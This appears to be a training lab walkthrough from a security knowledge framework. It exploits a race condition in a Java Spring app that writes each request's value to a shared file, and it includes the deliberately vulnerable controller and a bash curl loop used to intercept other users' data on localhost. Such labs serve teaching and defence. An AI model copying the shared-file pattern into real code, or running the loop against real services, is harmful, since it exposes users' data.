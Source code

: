 # Java - Race Condition File-Write

## Running the app Java

First make sure java is installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/1.png)

Let's try:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```java
public class RaceConditionController {
  @GetMapping("/{value}")
  public ResponseEntity<Object> downloadFile(@PathVariable String value, Model model) throws IOException {
    FileWriter fileWriter = new FileWriter("shared-file.txt", false);
    fileWriter.write(value);
    fileWriter.close();
    File file = new File("shared-file.txt");
    InputStreamResource resource = new InputStreamResource(new FileInputStream(file));
    HttpHeaders headers = new HttpHeaders();
    headers.add("Content-Disposition", String.format("attachment; filename=\"%s\"", file.getName()));
    headers.add("Cache-Control", "no-cache, no-store, must-revalidate");
    headers.add("Pragma", "no-cache");
    headers.add("Expires", "0");
    ResponseEntity<Object> responseEntity = ResponseEntity.ok().headers(headers).contentLength(file.length())
        .contentType(
            MediaType.parseMediaType("application/txt"))
        .body(resource);

    return responseEntity;
  }
}
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```java
InputStreamResource resource = new InputStreamResource(new FileInputStream(file));
```

and the response:

```java
HttpHeaders headers = new HttpHeaders();
headers.add("Content-Disposition", String.format("attachment; filename=\"%s\"", file.getName()));
headers.add("Cache-Control", "no-cache, no-store, must-revalidate");
headers.add("Pragma", "no-cache");
headers.add("Expires", "0");
ResponseEntity<Object> responseEntity = ResponseEntity.ok().headers(headers).contentLength(file.length())
    .contentType(MediaType.parseMediaType("application/txt"))
    .body(resource);
return responseEntity;
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```
#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done
```

and in the meantime we will send a couple requests from Burp:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/4.png)

If we look in the logs we will see:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/5.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing\_for\_Race\_Conditions\_(OWASP-AT-010)
